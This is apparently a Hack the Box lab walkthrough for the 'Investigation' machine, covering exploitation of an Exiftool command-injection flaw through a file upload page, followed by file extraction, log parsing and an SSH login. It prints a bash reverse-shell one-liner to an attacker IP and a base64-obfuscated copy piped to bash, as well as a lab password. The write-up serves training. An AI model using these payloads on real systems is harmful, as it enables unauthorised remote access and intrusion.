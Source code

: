 # Hack the Box - Investigation

```CSS
Machine IP: 10.10.11.197 - Linux
```
- Home Page
![image](https://user-images.githubusercontent.com/83878909/229590867-b6247863-847c-4542-9262-8b49d68df091.png)
- Service Page (File Upload)
![image](https://user-images.githubusercontent.com/83878909/229591086-ae649d64-42c7-4d06-b226-766ab832b99b.png)
- Analysed Image Report
![image](https://user-images.githubusercontent.com/83878909/229594569-1b66a61c-ca06-46af-ab8a-74fc5013a9e5.png)

## Exiftool
- Version 12.97 is vulnerable to [CVE-2022-23935](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429).

## Exploit
  - Testing the exploit using ping. Ping the attacker machine and capture ICMP packets if the ping is received.
![image](https://user-images.githubusercontent.com/83878909/229599022-e4a6e61a-e57b-443f-867f-d6c083766361.png)
  - Ping received.
![image](https://user-images.githubusercontent.com/83878909/229599327-3589ec39-e31f-4c38-a8c5-20ebf6b5f5dc.png)

- Sending the payload in base64 format and decrypting it on the victim machine.
  - Payload: `/bin/bash -i >& /dev/tcp/10.10.14.34/9001 0>&1`=`echo 'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjM0LzkwMDEgMD4mMQ==' | base64 -d | bash |`
![image](https://user-images.githubusercontent.com/83878909/229601047-d8811696-5f5d-482a-a8bc-f421c49b9d36.png)
  - Reverse Shell
![image](https://user-images.githubusercontent.com/83878909/229601230-9c508f23-7f61-4b3b-a0df-42521867ac4c.png)

---

- Found `.msg` file in `/usr/local/investigation`.
  - Transfer the file to attacker machine.
![image](https://user-images.githubusercontent.com/83878909/229604774-0211e995-a22b-4a49-ab70-77968c74c204.png)
  - Receive File - renamed to `analysis.msg`
![image](https://user-images.githubusercontent.com/83878909/229604983-c4243c4e-900b-452d-a88f-20bc83f39555.png)
  - Access the file using an online tool `https://products.aspose.app/`.
![image](https://user-images.githubusercontent.com/83878909/229606099-e31e6d5e-d398-4441-9163-6c8327539e46.png)
  - Download the `zip` file using an online tool `https://www.encryptomatic.com/viewer/`.
![image](https://user-images.githubusercontent.com/83878909/229606850-9d9590fa-ea22-4650-82e9-7ec1a48e82b0.png)
  - Found `security.evtx` after unzipping the file.
  - Use the `evtx-converter.py` script below to create a readable `xml` file.
  - Found default password `Def@ultf0r3nz!csPa$$`.

- Login in using ssh as user `smorton` and default password.
![image](https://user-images.githubusercontent.com/83878909/229616049-794f5fac-1c4d-4e89-92e0-49bd3378811c.png)

---



